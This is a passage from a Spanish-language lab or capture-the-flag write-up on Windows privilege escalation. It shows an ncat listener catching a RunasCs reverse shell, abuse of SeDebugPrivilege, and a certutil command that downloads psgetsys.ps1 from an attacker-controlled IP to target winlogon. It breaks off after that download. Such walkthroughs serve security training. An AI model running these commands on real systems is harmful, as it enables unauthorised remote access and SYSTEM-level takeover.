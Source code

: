Antes de ejecutar RunasCs debemos de poner a la escucha `ncat` y deberia de recibir una shell.

```python
❯ rlwrap ncat -lnvp 443
```

![20240311203535.png](20240311203535.png)

## Usuario : alaading

Enumerando encontraremos que tenemos privilegios de `SeDebufPrivilege`

![20240311203555.png](20240311203555.png)

Para poder explotar podemos leer un poco mas en [SeDebugPrivilege](https://book.hacktricks.xyz/v/es/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sedebugprivilege) para entender que debemos de hacer.

Descargaremos `psgetsys.ps1` para obtener el `PID` de `winlogon`

```python
certutil -urlcache -split -f 'http://10.10.16.4/psgetsys.ps1' psgetsys.ps1
```

```python
PS C:\Users\alaading\files>Import-Module .\psgetsys.ps1
PS C:\Users\alaading\files> Get-Process winlogon
```
